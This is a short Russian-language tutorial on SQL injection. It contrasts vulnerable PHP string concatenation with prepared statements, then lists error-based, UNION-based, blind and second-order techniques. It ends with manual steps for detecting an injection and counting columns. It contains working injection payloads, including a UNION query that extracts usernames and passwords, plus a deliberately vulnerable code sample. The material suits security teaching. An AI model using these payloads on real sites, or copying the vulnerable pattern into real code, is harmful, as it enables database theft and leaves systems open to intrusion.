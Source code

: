 **SQL Injection (SQLi)** — injection атака где атакующий вставляет SQL код в user input, изменяя оригинальный SQL запрос.

**Уязвимый код (PHP):**
```php
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username='$username'";
// Direct concatenation = VULNERABLE!
```

**Безопасный код:**
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=?");
$stmt->execute([$username]);
// Prepared statement = SAFE
```

#### Типы SQL Injection

**1. Error-based SQLi**

Ошибки SQL помогают понять структуру:
```sql
' OR 1=1--
# Ошибка показывает тип БД, версию
```

**2. UNION-based SQLi**

Объединение результатов нескольких SELECT:
```sql
' UNION SELECT null, username, password FROM users--
# Извлекает данные из другой таблицы
```

**3. Blind SQLi**

Нет прямого вывода, используем boolean/time-based:
```sql
' AND (SELECT SLEEP(5))--
# Если задержка 5 сек = уязвимо
```

**4. Second-Order SQLi**

Payload сохраняется в БД, выполняется позже.

#### Manual SQL Injection шаги

**Шаг 1: Detect**
```
' → Ошибка?
'' → OK?
' OR '1'='1 → Вход?
```

**Шаг 2: Determine columns**
```sql
' UNION SELECT null--
' UNION SELECT null,null--
# Увеличивай null пока нет ошибки
```
